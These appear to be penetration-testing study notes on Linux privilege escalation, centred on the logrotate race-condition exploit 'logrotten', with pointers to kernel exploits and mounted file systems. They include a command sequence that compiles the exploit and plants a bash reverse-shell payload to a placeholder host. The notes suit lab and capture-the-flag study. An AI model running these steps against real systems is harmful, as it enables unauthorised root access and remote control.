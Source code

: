 In some versions and with some pre-requisites met, it is possible to force a race condition to write files to any directory. This is because, you can replace the directory logrotate writes the log files to in the race window with a symbolic link to any arbitrary directory. The exploit leverages this to write to `/etc/bash_completion.d` as root allowing us to escalate privileges.

This exploit is known as logrotten and we can use this tool for it (need to compile the `logrotten.c` file on target or system with similar kernel to target).

https://github.com/whotwagner/logrotten

Pre-requisites:
1. Version (`logrotate --version`) is either
    - 3.8.6
    - 3.11.0
    - 3.15.0
    - 3.18.0
2. Logrotate must run as root or privileged user
3. Need write permissions on the log files
    - Check if logs are writable by reviewing files for each log class in `/etc/logrotate.d/*`
4. Logrotate must use an option that creates files (e.g. create, compress, copy) - can check this by checking `/etc/logrotate.conf` and seeing what option it's running, try grepping the vulnerable options?
    - **Note:** Sometimes this isn't the default configuration in use, try searching for different config files with `find`.
    - Or check for writable log files with `find` or linPEAS. To confirm it's in scope for logrotate, try writing to the file and seeing if after some time it gets emptied. Then you know it's being rotated.

```
target@hacked:~$ git clone https://github.com/whotwagner/logrotten
target@hacked:~$ cd logrotten && gcc logrotten.c -o logrotten
target@hacked:~$ echo "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1" > payload
target@hacked:~$ ./logrotten -p ./payload /tmp/tmp.log
```
https://ivanitlearning.wordpress.com/2021/04/17/hackthebox-book/


## Public Exploits

Depending on PRECISE OS ENUMERATION, can attempt a Kernel exploit (could be dangerous tho).

Kernal enumeration: `uname -r` (and also `arch` for architecture).

Can also exploit local services listening on loopback interface for privesc.


## File Systems

Mounting / unmounting file systems requires root privileges but it is worth it as it can have cool info on it.

To view currently mounted file systems, do `df -h` to see directory mappings.

To see unmounted file systems: `cat /etc/fstab | grep -v '#' | column -t` - these might have creds!

